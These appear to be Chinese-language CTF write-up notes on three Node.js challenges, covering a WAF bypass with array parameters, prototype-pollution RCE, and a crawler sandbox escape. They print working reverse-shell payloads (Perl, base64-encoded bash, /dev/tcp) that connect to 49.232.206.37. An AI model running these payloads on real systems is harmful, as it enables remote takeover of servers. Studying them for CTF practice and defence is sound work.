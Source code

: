 # node.js

# node.js

### ****[XNUCA2019Qualifier]HardJS****

**XSS**

看到这个robot.py感觉可能有xss

![Untitled](node%20js%201e075dab9cd848caae679178663119ea/Untitled.png)

**原型链污染**

### ****[GKCTF 2021]easynode****

看源码，对登录的用户名，密码有waf

![Untitled](node%20js%201e075dab9cd848caae679178663119ea/Untitled%201.png)

waf是通过for循环来逐个提取字符对比，使用数组绕过，让js的弱类型比较元素，而substr只支持字符串使用，，可以在pyload后面机上pyloda

后加入waf过滤的字符使其转化为str

username[]=admin'#&username[]=a&username=a&username=a&username=a&username= a&username=a&username=a&username=a&username=(&password=admin

![Untitled](node%20js%201e075dab9cd848caae679178663119ea/Untitled%202.png)

{"msg":"yes","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjpbImFkbWluJyMiLCJhIiwiYSIsImEiLCJhIiwiIGEiLCJhIiwiYSIsImEiLCIoIl0sImV4cCI6MTY2NTI4NjQ0NywiaWF0IjoxNjY1Mjg0NjQ3fQ.pr75fz90M-HkadS3GzcKIfFuNRkniRNsRRr1O9-OPRc"}

拿到管理员token

将username设为__proto__去访问addAdmin

并且拿该用户的token去adminDIV这样就可以在extend里做污染，然后RCE

![Untitled](node%20js%201e075dab9cd848caae679178663119ea/Untitled%203.png)

base64的内容perl -e 'use Socket;$i="49.232.206.37";$p=23456;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’

data={"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('echo%20YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC80OS4yMzIuMjA2LjM3LzIzMzMgMD4mMSI=%3D%7Cbase64%20-d%7Cbash');var __tmp2"}

data={"outputFunctionName":"x;process.mainModule.require('child_process').exec('echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iNDkuMjMyLjIwNi4zNyI7JHA9MjM0NTY7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9zaCAtaSIpO307Jw==|base64 -d|bash');x"}

回到admin就触发了

### ****[2021祥云杯]cralwer_z****

user.js

```jsx
const express = require('express');
const crypto = require('crypto');
const createError = require('http-errors');
const { Op } = require('sequelize');
const { User, Token } = require('../database');
const utils = require('../utils');
const Crawler = require('../crawler');

const router = express.Router();

router.get('/', async (req, res) => {
    const user = await User.findByPk(req.session.userId)
    return res.render('index', { username: user.username });
});

router.get('/profile', async (req, res) => {
    const user = await User.findByPk(req.session.userId);
    return res.render('user', { user });
});

router.post('/profile', async (req, res, next) => {
    let { affiliation, age, bucket } = req.body;
    const user = await User.findByPk(req.session.userId);
    if (!affiliation || !age || !bucket || typeof (age) !== "string" || typeof (bucket) !== "string" || typeof (affiliation) != "string") {
        return res.render('user', { user, error: "Parameters error or blank." });
    }
    if (!utils.checkBucket(bucket)) {
        return res.render('user', { user, error: "Invalid bucket url." });
    }
    let authToken;
    try {
        await User.update({
            affiliation,
            age,
            personalBucket: bucket
        }, {
            where: { userId: req.session.userId }
        });
        const token = crypto.randomBytes(32).toString('hex');
        authToken = token;
        await Token.create({ userId: req.session.userId, token, valid: true });
        await Token.update({
            valid: false,
        }, {
            where: {
                userId: req.session.userId,
                token: { [Op.not]: authToken }
            }
        });
    } catch (err) {
        next(createError(500));
    }
    if (/^https:\/\/[a-f0-9]{32}\.oss-cn-beijing\.ichunqiu\.com\/$/.exec(bucket)) {
        res.redirect(`/user/verify?token=${authToken}`)
    } else {
        // Well, admin won't do that actually XD. 
        return res.render('user', { user: user, message: "Admin will check if your bucket is qualified later." });
    }
});

router.get('/verify', async (req, res, next) => {
    let { token } = req.query;
    if (!token || typeof (token) !== "string") {
        return res.send("Parameters error");
    }
    let user = await User.findByPk(req.session.userId);
    const result = await Token.findOne({
        token,
        userId: req.session.userId,
        valid: true
    });
    if (result) {
        try {
            await Token.update({
                valid: false
            }, {
                where: { userId: req.session.userId }
            });
            await User.update({
                bucket: user.personalBucket
            }, {
                where: { userId: req.session.userId }
            });
            user = await User.findByPk(req.session.userId);
            return res.render('user', { user, message: "Successfully update your bucket from personal bucket!" });
        } catch (err) {
            next(createError(500));
        }
    } else {
        user = await User.findByPk(req.session.userId);
        return res.render('user', { user, message: "Failed to update, check your token carefully" })
    }
})

// Not implemented yet
router.get('/bucket', async (req, res) => {
    const user = await User.findByPk(req.session.userId);
    if (/^https:\/\/[a-f0-9]{32}\.oss-cn-beijing\.ichunqiu\.com\/$/.exec(user.bucket)) {
        return res.json({ message: "Sorry but our remote oss server is under maintenance" });
    } else {
        // Should be a private site for Admin
        try {
            const page = new Crawler({
                userAgent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
                referrer: 'https://www.ichunqiu.com/',
                waitDuration: '3s'
            });
            await page.goto(user.bucket);
            const html = page.htmlContent;
            const headers = page.headers;
            const cookies = page.cookies;
            await page.close();

            return res.json({ html, headers, cookies});
        } catch (err) {
            return res.json({ err: 'Error visiting your bucket. ' })
        }
    }
});

module.exports = router;
```

- 访问profile后生成一个token，跳转到verify然后存入personalBucket,在这个时候抓包让他访问不了verify

![Untitled](node%20js%201e075dab9cd848caae679178663119ea/Untitled%204.png)

- 再把第一个包改成自己的vps

![Untitled](node%20js%201e075dab9cd848caae679178663119ea/Untitled%205.png)

```jsx
<script>c='constructor';this[c][c]("c='constructor';require=this[c][c]('return process')().mainModule.require;var sync=require('child_process').spawnSync; var ls = sync('bash', ['-c','bash -i >& /dev/tcp/49.232.206.37/23456 0>&1'],);console.log(ls.output.toString());")()</script>
```

然后访问/user/bucket就可以反弹shell，bucket会去爬取对应页面

![Untitled](node%20js%201e075dab9cd848caae679178663119ea/Untitled%206.png)